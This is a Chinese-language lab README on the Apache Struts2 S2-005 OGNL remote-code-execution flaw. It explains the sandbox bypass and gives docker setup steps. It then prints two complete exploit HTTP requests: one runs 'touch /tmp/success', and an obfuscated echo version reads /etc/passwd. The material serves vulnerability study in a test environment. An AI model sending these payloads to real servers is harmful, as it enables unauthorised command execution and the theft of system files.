

# S2-005 远程代码执行漏洞

影响版本: 2.0.0 - 2.1.8.1
漏洞详情: http://struts.apache.org/docs/s2-005.html

## 原理

参考吴翰清的《白帽子讲Web安全》一书。

> s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

XWork会将GET参数的键和值利用OGNL表达式解析成Java语句，如：

```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//会被转化成
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

触发漏洞就是利用了这个点，再配合OGNL的沙盒绕过方法，组成了S2-003。官方对003的修复方法是增加了安全模式（沙盒），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用`\u0023`绕过s2对`#`的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码

## 环境

执行以下命令启动s2-001测试环境

```
docker-compose build
docker-compose up -d
```

## POC && EXP

### 执行任意命令POC（无回显，空格用`@`代替）

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36


```

网上一些POC放到tomcat8下会返回400，研究了一下发现字符`\`、`"`不能直接放path里，需要urlencode，编码以后再发送就好了。这个POC没回显。

POC用到了OGNL的Expression Evaluation：


大概可以理解为，`(aaa)(bbb)`中aaa作为OGNL表达式字符串，bbb作为该表达式的root对象，所以一般aaa位置如果需要执行代码，需要用引号包裹起来，而bbb位置可以直接放置Java语句。`(aaa)(bbb)=true`实际上就是`aaa=true`。不过确切怎么理解，还需要深入研究，有待优化。

期待大佬研究出有回显的POC。

### 执行任意命令POC（有回显，将需要执行的命令进行urlencode编码）

```
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: target:8080
Content-Length: 626
redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```




